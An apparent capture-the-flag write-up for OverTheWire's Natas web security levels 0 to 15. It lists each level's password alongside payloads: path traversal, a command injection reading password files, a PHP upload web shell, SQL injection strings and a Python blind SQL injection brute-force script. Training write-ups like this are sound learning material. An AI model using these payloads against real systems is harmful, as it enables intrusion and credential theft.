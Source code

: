 ﻿**OVERTHEWIRE:NATAS**

 ***OverTheWire's Natas challenges are a series of web security challenges designed to teach participants the fundamentals of web application security. These challenges are hosted on the OverTheWire platform and are intended for those looking to improve their knowledge and skills in identifying and exploiting common web vulnerabilities.***

 
**LEVEL 0 -> Level 15 Writeups**


> **https://overthewire.org/wargames/natas/**



**Natas-0**

\*Found the password for natas1 in the source page.
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
**Natas-1**

\*Found the password by accessing the page source from developer tools in chrome.
<!--The password for natas2 is h4ubbcXrWqs To7GGnnUMLppXb0ogfBZ7-->

**Natas-2**

\*Got the password in users.txt file which is present inside the files directory of the website 
Password:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

**Natas-3**

\*The hidden directory was identified by using /robots.txt.
Password:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

**Natas-4:**

\*Changed the default referrer by using the referrer controller.
Password:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

**Natas-5**

\*Login credentials were saved in browsers as cookies so changed the cookie and got the access.
Password:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

**Natas-6:**

\*Checked the php code and found the secret code by traversing by adding includes/secret.inc
Secret:FOEIUWGHFEEUHOFUOIU
Password:jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

**Natas-7**
\* Traversed through the /etc files by: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas\_webpass/natas8
Password:a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

**Natas-8**

\*Decoded the encoded secret by using this function:
```
function decodeSecret($encoded) 
{ return base64\_decode(strrev(hex2bin($encoded)));
}
```
PasswordSda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

**Natas-9**

\*The vulnerability here there is passthru the key I entered  ; cat /etc/natas\_webpass/natas10 # to access the file and display the password.

Password:D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

**Natas-10**
Here there is a filter applied so I used . /etc/natas\_webpass/natas11 # here .\* searches for the files that have the path mentioned.
Password:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

**Natas-11**

\*After going through the source code we need to set the showpass to yes in order to view the pass.
\*XOR encrypt has a key by which it encrypts so to know the key I used a online code which I got while surfing google
\*Changed the cookie to MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
Password:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

**Natas-12**

\*Created a .php file with the following command in it 
<?php echo exec("cat /etc/natas\_webpass/natas14"); ?>
Used burp suite and changed the file that opened from .jpg to .php and accessed the natas14 file for the pass
Password:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

**Natas-13**

\*Learned that the website identifies the jpg by the first four bits of hexadecimal code.
\*Used hexeditor to change the first 4 bytes and then uploaded the file.
\*Intercepted the upload using burpsuite and then changed the input to php.
Password:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

**Natas-14:**

\*Learnt about SQL injection and then accessed it using 
username=1" OR “TEST” = “TEST”&password=”1" OR “TEST” = “TEST
which makes it true and shows the password.

**Natas-15:**

\*From source code we can know that the pass is stored in users relation which has username and password as columns.
\*So used SQL injection by running an py code.


#!/usr/bin/env python
\# -\* coding: utf-8 --

```
import requests
import re
from string import ascii\_lowercase, ascii\_uppercase, digits
characters = ascii\_lowercase + ascii\_uppercase + digits
print(characters)

username = 'natas15'
password = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
url = 'http://natas15.natas.labs.overthewire.org/'
session = requests.Session()
seen\_password = list()

while True:
     for ch in characters:
        print("trying with pass", "".join(seen\_password) + ch)
        response = session.post(url, data={"username": 'natas16" AND BINARY password LIKE \'' + "".join(seen\_password) + ch + '%\' #'}, auth=(username, password))
        content = response.text
        if 'user exists' in content:
            seen\_password.append(ch)
              break
```
Password:RD7iZrd5gATjj9PkPEuaOlfEjHqj32V

